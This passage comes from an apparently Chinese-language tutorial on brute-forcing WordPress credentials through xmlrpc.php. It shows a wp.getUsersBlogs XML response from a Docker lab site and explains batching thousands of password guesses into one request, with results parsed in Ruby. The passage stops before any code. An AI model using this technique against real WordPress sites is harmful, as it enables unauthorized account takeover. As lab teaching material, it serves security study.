 ```
                              <value>
                                <boolean>1</boolean>
                              </value>
                            </member>
                            <member>
                              <name>url</name>
                              <value>
                                <string>http://172.17.0.3/</string>
                              </value>
                            </member>
                            <member>
                              <name>blogid</name>
                              <value>
                                <string>1</string>
                              </value>
                            </member>
                            <member>
                              <name>blogName</name>
                              <value>
                                <string>Docker wordpress</string>
                              </value>
                            </member>
                            <member>
                              <name>xmlrpc</name>
                              <value>
                                <string>http://172.17.0.3/xmlrpc.php</string>
                              </value>
                            </member>
                          </struct>
                        </value>
                      </data>
                    </array>
                  </value>
                </data>
              </array>
            </value>
          </data>
        </array>
      </value>
    </param>
  </params>
</methodResponse> 
```

我们注意到了长长的回复，带有调用方法`wp.getUsersBlogs`的结果

很棒，对吧？

棘手的部分刚刚开始！因为我们将在一个请求中发送成千上万个密码，回复将是非常庞大的 XML 文件，我们如何找到正确凭据的位置？答案是，通过使用强大的 Ruby 迭代方法，特别是`each_with_index`方法。

废话少说，给我看代码！
